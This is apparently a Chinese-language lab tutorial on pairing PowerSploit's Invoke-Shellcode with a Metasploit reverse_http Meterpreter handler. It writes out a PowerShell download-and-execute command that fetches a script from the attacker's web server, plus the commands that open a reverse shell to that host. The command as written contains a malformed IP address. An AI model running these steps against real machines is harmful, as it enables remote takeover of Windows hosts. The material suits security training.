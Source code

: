 ```
# 确保在 /usr/share/powersploit 这个文件夹下
# 启动 Web 服务器
python -m SimpleHTTPServer
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482387082115.png-wm)

在开启了 Python 创建的简单 Web 服务器之后，我们再打开 Kali Linux 下的 Msfconsole 终端，输入如下命令启动 Msfconsole 终端，并且对相应的攻击模块进行配置：

```
# 选用相应模块
# 设置 windows 下辅助模块
# 设置攻击者的主机 IP 地址
# 设置攻击者监听的端口命令
# 输入攻击命令

msf > use exploit/multi/handler
msf > set PAYLOAD windows/meterpreter/reverse_http
msf > set LHOST 192.168.122.101
msf > set LPORT 4444
msf > exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482390669986.png-wm)

**由于实验楼环境中并未安装 Windows 虚拟机，所以无法验证实验的有效性。对于完整版的本地演示，可以查看第 4.2 节中 本地 Kali Linux 演示完整版（选看） **

如果有 Windows 系统，则下一步是运行 PowerShell 这个工具。在 PowerShell 这个命令行中输入命令，注意，其中的 IP 地址需要换成攻击者主机的 IP 地址：

```
# 下载脚本文件
ps > IEX (New-Object Net.WebClient).DownloadString ("http://192.168.192.122.101:8000/CodeExecution/Invoke-Shellcode.ps1 ")
```
即下载服务器 Web 服务网页上的 `Invoke-Shellcode.ps1` 文件：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482390958591.png-wm)

接着继续在 Windows 的 PowerShell 中上运行如下命令，创建会话通道：

```
# 创建 session 会话通道
ps > Invoke-Shellcode -Payload windows/meterpreter/reverse_http -lhost 192.168.122.101 -lport 4444 -Force
```
如果一切顺利，在输入完上述命令之后，处在监听状态的 Kali Linux 中的 Msfconsole 已经建立了一个会话通道。其中 `Invoke-Shellcode.ps1` 源码的关键部分为：

```
...
...
[CmdletBinding( DefaultParameterSetName = 'RunLocal', SupportsShouldProcess = $True , ConfirmImpact = 'High')] Param (
    [ValidateNotNullOrEmpty()]
    [UInt16]
    
    # 进程的 ID 编号变量
    $ProcessID,
    
    # 参数 RunLocal 默认本地运行
    [Parameter( ParameterSetName = 'RunLocal' )]
    [ValidateNotNullOrEmpty()]
    [Byte[]]
    $Shellcode,
    
    [Switch]
    $Force = $False
```
